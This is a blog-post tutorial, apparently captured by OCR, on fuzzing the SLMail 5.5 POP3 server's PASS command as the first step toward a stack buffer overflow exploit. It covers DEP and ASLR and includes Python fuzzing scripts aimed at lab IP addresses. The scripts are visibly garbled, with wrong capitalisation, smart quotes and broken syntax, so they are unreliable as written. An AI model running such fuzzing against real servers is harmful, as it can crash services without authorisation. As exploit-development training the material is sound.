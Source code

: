 ```yaml
---
layout: post
title: "Stack Buffer Overflow Attack"
date: 2015-09-30 09:21:59
image: '/assets/img/'
description:
tags:
categories:
twitter_text:
---
```


#Stack Buffer Overflow Attack

Before describing a buffer overflow one must understanding what fuzzing is, Fuzzing in nutshell an application or protocol based fuzzing involved sending a malformed data into application and network protocol input and observing unexpected crashes, an unexpected crash indicated that the application or network protocol might not sanitize or filter certain end user input correctly, this likely lead to discovering an exploitable weakness.

Vulnerability in SLMail 5.50 MTA agent buffer overflow was found by NGSSoftware (Insight security researcher and effected the POP3 PASS command which provided during user login, the major issue with that vulnerability in SLMail 5.5.0 is Pre authentication, as an attacker would not need to have credentials to trigger and exploit this vulnerability.

In short the SLMail software was not compiled with data execution prevention (DEP) or Address space layout randomization (ALSR) is technology used to help prevent shellcode from begin successful, it does this by randomly offsetting the location of certain modules and certain memory by randomizing the offsets, however DEP prevents specific memory sector i.e. STACK from being exploited by executing malicious shellcode.

[http://en.wikipedia.org/wiki/Data_Execution_Prevention](http://en.wikipedia.org/wiki/Data_Execution_Prevention/)
[http://en.wikipedia.org/wiki/ASLR](http://en.wikipedia.org/wiki/ASLR)

##Intracting with SLmail using python


    # Net cat equivalent

    #!/bin/usr/python

    Import socket

    S = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

    Try:

    Print “Send some bad buffer \n”

    s.connect((192.168.209.128,110))

    banner = s.recv(1024)

    s.send(‘USER zane\r\n’)

    banner.recv(1024)

    print banner

    s.send(‘PASS password\r\n’)

    banner.recv(1024)

    print banner

    s.close()

    print (“all done”)

    except:

    print(“Could not connect to POP3 clear text protocol J “)


##Fuzzing SMail

    Import socket

    # we create a buffer with size of 100 bytes

    Buffer =[‘A’]

    Counter = 100

    While len(buffer) <= 30:

    Buffer.append(“A”*counter)

    Counter = counter+200

for hexstrings in buffer:


    print “Fuzzing the PASS field with % bytes % len(string)

    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

    connection = s.connect((“192.168.209.131”,110)

    s.recv(1024) # banner

    s.send(‘USER , sadi\r\n’)

    s.recv(1024) # recv minimal from server

    s.send(‘PASS’ + hexstrings r+ ‘\r\n’) # send our hex stuffs to PASS field and see if sever crash

    s.close(‘QUIT\r\n’) #

Just before we fuzz and send large numbers of byte and crash the SLMAIL pop 3 server I would like to introduce you to Immunity debugger, is a hacker tool a way to write exploits, analyse malware, reverse engineer binary files, the best part about immunity debugger it has s solid user-friendly graph, through out creating an exploit for SLMail POP3 server I will be using Immunity debugger to attack and analyse stack.

Inline-style: 
![Test Image](https://eduservlab.files.wordpress.com/2015/05/3.png "VM Ware")